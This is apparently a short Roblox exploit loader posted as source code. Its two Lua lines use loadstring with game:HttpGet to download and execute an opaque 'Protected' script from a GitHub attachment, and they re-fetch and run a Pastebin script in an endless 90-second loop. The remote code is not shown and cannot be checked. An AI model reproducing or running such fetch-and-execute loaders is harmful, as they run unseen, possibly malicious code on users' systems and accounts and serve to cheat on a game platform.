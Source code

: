 
loadstring(game:HttpGet('https://github.com/NeaPchX2/2XHUB-UPDBIG/files/9052188/Protected.30.txt', true))()

While wait(90) do
   loadstring(game:HttpGet('https://pastebin.com/raw/V5jPE8SY', true))()
end
